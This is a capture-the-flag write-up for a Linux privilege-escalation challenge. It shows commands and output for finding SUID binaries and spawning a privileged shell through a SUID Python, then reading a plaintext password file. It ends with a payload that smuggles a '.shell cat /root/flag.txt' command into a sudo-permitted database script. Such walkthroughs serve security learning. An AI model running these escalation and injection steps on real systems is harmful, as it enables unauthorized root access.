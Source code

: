 # Space University of Interior Design - Solution

**Author**: zeyu2001

**Category**: Pwn

We start off as a guest user.

```
$ id
uid=1001(guest) gid=1001(guest) groups=1001(guest)
```

Find that Python has SUID permissions. Refer to https://gtfobins.github.io/gtfobins/python/

```
$ find / -perm /4000 
/bin/umount
/bin/ping
/bin/mount
/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/python3.7
/usr/bin/sudo
```

Use the following command, and observe that our EUID has changed to that of `jared`.

```
$ python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
$ id
uid=1001(guest) gid=1001(guest) euid=1000(jared) groups=1001(guest)
```

Without having the true UID set to that of `jared`, we cannot sudo. But while we were previously unable to view `jared`'s files, we can now view them.

```
$ ls -la jared
total 900
drwx------ 1 jared jared   4096 Jul  8 18:48 .
drwxr-xr-x 1 jared jared   4096 Jul  8 18:39 ..
-rwx------ 1 jared jared    220 Apr 18  2019 .bash_logout
-rwx------ 1 jared jared   3526 Apr 18  2019 .bashrc
-rwx------ 1 jared jared    807 Apr 18  2019 .profile
-rwx------ 1 jared jared 884736 Nov 29  2015 chinook.db
-rwx------ 1 jared jared    117 Jul  8 18:38 creds.txt
-rwx------ 1 jared jared    668 Jul  8 17:58 query_db.py
```

There is an interesting file in `jared`'s directory.

```
$ cat jared/creds.txt
In case I forget my credentials.

jared:iamrich

Thanks to my awesome sysadmin, no one else can see this file!
```

We found `jared`'s credentials. Now, we can `su` to gain full permissions. Observe that the true UID is now that of `jared`.

```
$ id
uid=1001(guest) gid=1001(guest) euid=1000(jared) groups=1001(guest)

$ su jared
iamrich

$ id
uid=1000(jared) gid=1000(jared) groups=1000(jared),27(sudo)
```

Then, leverage `sudo` for an injection vulnerability.

```
$ sudo -l 
Matching Defaults entries for jared on fa9f84013480:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jared may run the following commands on fa9f84013480:
    (ALL) NOPASSWD: /home/jared/query_db.py
```

The payload is:

`sudo ./query_db.py --row "FirstName FROM employees;\n.shell cat /root/flag.txt;\nSELECT FirstName"`

Take a look at `query_db.py` to understand why the payload works.
